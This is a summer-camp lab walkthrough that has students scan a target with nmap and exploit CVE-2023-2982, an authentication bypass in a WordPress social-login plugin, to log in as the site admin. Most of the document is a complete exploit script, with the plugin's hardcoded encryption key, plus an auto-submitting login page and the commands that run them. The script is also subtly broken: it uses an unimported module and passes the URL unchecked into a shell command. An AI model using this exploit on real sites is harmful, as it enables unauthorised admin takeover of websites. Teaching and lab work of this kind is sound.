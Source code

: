 <h1>Welcome to GenCyber Summer Camp 2024!</h1>

Together we are going to learn how to exploit a website that has a public vulnerability.  Lets see what else we can figure out about this website.  We also know that the website owner emailed us from admin@example.com which might come in handy later.

<h3>The pictures were taking using Chromium, if you're using Firefox you may need to do some deeper diving</h3>

Lets take a look at: [Download the Free Nmap Security Scanner for Linux/Mac/Windows](https://nmap.org/download.html)

To install on your Raspberry Pis, just use `sudo apt install nmap`
<!-- Go ahead and follow the instructions to download nmap onto your device from the website.  -->

Once you have it installed you should be able to run it in your terminal with `nmap <command>`

We were given an IP address that this machine is running on: `144.80.64.114` so using that information read this article: [Port Scanning Basics | Nmap Network Scanning](https://nmap.org/book/man-port-scanning-basics.html) and see what information you can gather about this site.
<br> Don't move onto the next section until you have completed a port scan of the website and make sure to take a screenshot of the scan for your report.

<details>
    <summary>
        After scanning you should have discovered these ports are running:
    </summary>
    443, 80
</details>

In your browser go to: [http://144.80.64.114/](http://144.80.64.114/), which is the website running on port 80 and have a look around.  After you had some time to explore you should right click and inspect the website:
![[Pasted image 20240626205001.png]](https://raw.githubusercontent.com/alphapuggle/GenCyber2024/main/Pasted%20image%2020240626205001.png)

And then take a look at the applications tab and examine the cookies for the site:
![[Pasted image 20240626210027.png]](https://raw.githubusercontent.com/alphapuggle/GenCyber2024/main/Pasted%20image%2020240626210027.png)

Notice how that table is empty, showing us that we are not logged in.  Now take a look at the network tab and take note of this service that we have running on the site:
![[Pasted image 20240626213842.png]](https://raw.githubusercontent.com/alphapuggle/GenCyber2024/main/Pasted%20image%2020240626213842.png)

This login method is out of date and has known vulnerabilities associated with it which you can read about here: [CVE-2023-2982 : The WordPress Social Login and Register (Discord, Google, Twitter, LinkedIn) plugin for WordPress is vulnerable to authe (cvedetails.com)](https://www.cvedetails.com/cve/CVE-2023-2982/)

> Make sure to take note of this in your report as well as a screenshot of the running service.


Now that we have a possible login method lets look and see if there are any proof's of concept attacks (POCs) for the attack or public scripts that exploit this attack.  I encourage you to do your own research about this vulnerability but for the purpose of this lab I have found us a POC that we can use: [GitHub - RandomRobbieBF/CVE-2023-2982: WordPress Social Login and Register (Discord, Google, Twitter, LinkedIn) <= 7.6.4 - Authentication Bypass](https://github.com/RandomRobbieBF/CVE-2023-2982/tree/main) 

Typically you would have to download and modify this file yourself. To prevent errors or anything actually malicious, I have uploaded the code you will need here:

create a file called `exploit.py` and put this code in it:

<h3>exploit.py</h3>

```python
import requests
import os
from Cryptodome.Cipher import AES
from Cryptodome.Util.Padding import pad
import base64
import argparse
import random
import string

# Disable insecure request warnings
from requests.packages.urllib3.exceptions import InsecureRequestWarning
requests.packages.urllib3.disable_warnings(InsecureRequestWarning)

# Set up session with a custom User-Agent
session = requests.Session()
user_agent = "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/114.0.0.0 Safari/537.36"
session.headers.update({'User-Agent': user_agent})

passphrase = 'jMj7MEdu4wkHObiD'

def try_login(website_url, email):
    website_url = website_url.rstrip('\/') + '/'
    
    # Encrypt and encode email
    cipher = AES.new(passphrase.encode('utf-8'), AES.MODE_ECB)
    padded_email = pad(email.encode('utf-8'), AES.block_size)
    encrypted_email = cipher.encrypt(padded_email)
    encoded_email = base64.b64encode(encrypted_email).decode('utf-8')
    
    try:
        response = session.post(website_url, headers={'Content-Type': 'application/x-www-form-urlencoded'},
                                data={'option': 'moopenid', 'email': encoded_email, 'appName': 'rlHeqZw2vrPzOiWWfCParA=='},
                                allow_redirects=False, verify=False, timeout=10)
        
        if any('wordpress_logged_in' in cookie.name for cookie in session.cookies):
            print("Login Worked!")
            random_string = ''.join(random.choices(string.digits, k=4))
            with open("login.html", 'r') as file:
                file_content = file.read()
                replaced_content = file_content.replace('WEBSITE_REPLACE', website_url).replace('EMAIL_REPLACE', encoded_email)
            
            with open(f"login-{random_string}.html", 'w') as file:
                file.write(replaced_content)
            print(f"To login again, open login-{random_string}.html")
        else:
            print(f"Login Failed with {email}")
    except requests.exceptions.RequestException as e:
        print('Error occurred while logging in:', str(e))

def scan_and_extract(website_url):
    print(f"Crawling {website_url} for email addresses.")
    os.system(f"katana -kf all -u {website_url} -o /tmp/katana.txt")
    print("Using Nuclei to extract emails from links")
    os.system("nuclei -l /tmp/katana.txt -t email-extraction.yaml -nc -nm -fr -o /tmp/nuc.txt")
    
    with open("/tmp/nuc.txt", "r") as f:
        lines = f.readlines()
        emails = set()
        for line in lines:
            matches = re.findall(r'\b[A-Za-z0-9._%+-]+@[A-Za-z0-9.-]+\.[A-Z|a-z]{2,}\b', line)
            emails.update(matches)
    
    with open("/tmp/nuc.txt", "w") as f:
        for email in emails:
            f.write(email + "\n")
    
    for email in emails:
        try_login(website_url, email)

def main():
    parser = argparse.ArgumentParser(description='CVE-2023-2982 Exploit')
    parser.add_argument('-w', '--website_url', required=True, help='Website URL')
    parser.add_argument('-e', '--email', required=False, help='Email')
    args = parser.parse_args()
    
    website_url = args.website_url
    email = args.email
    
    if email:
        try_login(website_url, email)
    else:
        scan_and_extract(website_url)

if __name__ == "__main__":
    main()

```

Create another file called `login.html` and put this code inside of it:

<h3>login.html</h3>

```html
<html>
<head>
    <script src="https://cdnjs.cloudflare.com/ajax/libs/jquery/1.11.1/jquery.js" integrity="sha512-eKwZNCvuOhxcqGTXAudC9WH2KUKf8Id1cqNoMc6DKZuN8upL22xj3ZkJdckyDd3Gjsi1QHKZ3ug0XQHQkGRNJg==" crossorigin="anonymous" referrerpolicy="no-referrer"></script>
    <script type="text/javascript">
        $(document).ready(function () {
            window.document.forms[0].submit();
        });
    </script>
</head>
<body>

<p style="font: calibri;">Please wait...</p>
<form action="WEBSITE_REPLACE/?option=moopenid" method="post" id="oauth-form">
    <input type="hidden" name="access_token" value="null"/>
    <input type="hidden" name="token_type" value="null"/>

    <input type="hidden" name="profileUrl" value="null"/>

    <input type="hidden" name="firstName" value="null"/>

    <input type="hidden" name="lastName" value="null"/>

    <input type="hidden" name="appName" value="5mOYjGe8QSZBuYFqNSAS4A=="/>

    <input type="hidden" name="profilePic" value="null"/>

    <input type="hidden" name="userid" value="null"/>

    <input type="hidden" name="email" value="EMAIL_REPLACE"/>

    <input type="hidden" name="username" value="null"/>

</form>
</body>
</html>

```

To use the `explot.py` file, we need to install these dependencies using pip:
```
requests 
pycryptodome
```

Make sure both files are in the same directory, and `cd` to it. Once you're in the directory you can run the following command: `python3 exploit.py -w http://144.80.64.114/ -e admin@example.com` 

> Notice how we stole the website owners email from the initial email he sent us.

You should get terminal output that looks like this:
```
>> python3 exploit.py -w http://144.80.64.114/ -e admin@example.com
Login Worked!
To login again, open login-4358.html
```

Now there should be a new .html file in the same directory as your script.  Open it up and it should take you to the website (if for some reason it takes you to localhost/127.0.0.1 just keep reopening the new html file until you return to the blog site) 

Once you are on the new site you should now see a menu open on the left which should greet you as admin meaning you have successfully logged in as an admin user on the site.  To further verify this you can go back into the cookies tab and confirm you are logged in as admin:
![[Pasted image 20240626205943.png]](https://raw.githubusercontent.com/alphapuggle/GenCyber2024/main/Pasted%20image%2020240626205943.png)

> Make sure to take a screenshot of this for your report.

Now that you have completed your attack take some time to do some research and write a mini report that you could give to your friend or client outlining this vulnerability.<br>
Your report should outline what vulnerability was found, what it impacts, and how to mitigate it.

Make sure to pull information from some resources we have already seen as well, I'll list these two to start:<br>
[CVE-2023-2982 : The WordPress Social Login and Register (Discord, Google, Twitter, LinkedIn) plugin for WordPress is vulnerable to authe (cvedetails.com)](https://www.cvedetails.com/cve/CVE-2023-2982/)<br>
[OWASP Top Ten | OWASP Foundation](https://owasp.org/www-project-top-ten/)
